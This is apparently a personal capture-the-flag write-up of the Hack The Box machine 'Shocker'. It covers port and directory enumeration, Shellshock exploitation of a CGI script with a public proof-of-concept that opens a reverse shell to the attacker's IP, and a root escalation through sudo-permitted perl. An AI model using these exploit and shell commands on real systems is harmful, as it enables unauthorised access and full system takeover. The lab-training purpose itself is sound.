 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Shocker](https://app.hackthebox.com/machines/Shocker)

> [!tip]- Summary with Spoilers
> - This Linux machine was vulnerable to [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)), allowing RCE via the `user.sh` CGI script.
> - Initial access was achieved as `shelly`, and privilege escalation was possible by leveraging `sudo` to run `perl` as `root`.

## Enumeration

```console
  $ nmap -n -sCV -T4 -p1-65535 -v $t
  [...]
  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  | http-methods:
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-title: Site doesn't have a title (text/html).
  2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
  |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
  |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  [...]
```

`ffuf` directory scan:

```console
$ ffuf -ic -v -w ~/list.txt -u http://${t}/FUZZ/
[...]

[Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 112ms]
| URL | http://10.10.10.56/cgi-bin/
    * FUZZ: cgi-bin

:: Progress: [1/1] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

Searching the `cgi-bin` directory:

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/big.txt -u http://${t}/cgi-bin/FUZZ.sh
[...]

[Status: 403, Size: 306, Words: 22, Lines: 12, Duration: 126ms]
| URL | http://10.10.10.56/cgi-bin/.htpasswd.sh
    * FUZZ: .htpasswd

[Status: 403, Size: 306, Words: 22, Lines: 12, Duration: 114ms]
| URL | http://10.10.10.56/cgi-bin/.htaccess.sh
    * FUZZ: .htaccess

[Status: 200, Size: 118, Words: 19, Lines: 8, Duration: 128ms]
| URL | http://10.10.10.56/cgi-bin/user.sh
    * FUZZ: user

:: Progress: [20476/20476] :: Job [1/1] :: 323 req/sec :: Duration: [0:01:00] :: Errors: 0 ::
```

```console
$ curl -si http://${t}/cgi-bin/user.sh
HTTP/1.1 200 OK
Date: Wed, 04 Oct 2023 17:53:29 GMT
Server: Apache/2.4.18 (Ubuntu)
Transfer-Encoding: chunked
Content-Type: text/x-sh

Content-Type: text/plain

Just an uptime test script

 13:53:29 up  1:13,  0 users,  load average: 0.01, 0.12, 0.10
```

## Exploitation

This host is vulnerable to the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)). I'll use [shellpoc.py](https://github.com/zalalov/CVE-2014-6271/blob/master/shellpoc.py):

```console
$ python2 shellpoc.py 
Usage: shellpoc.py <host> <vulnerable CGI> <attackhost/IP>
Example: shellpoc.py localhost /cgi-bin/test.cgi 10.0.0.1/8080

  e@k(!3826):~
$ python2 shellpoc.py $t /cgi-bin/user.sh 10.10.14.20/443
```

Catching the reverse shell:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.56] 53514
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
d2b360[...]

```

## Privilege Escalation

`perl` is available via `sudo`, from which we can escape to a `root` shell:

```console
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
87d34c[...]
```
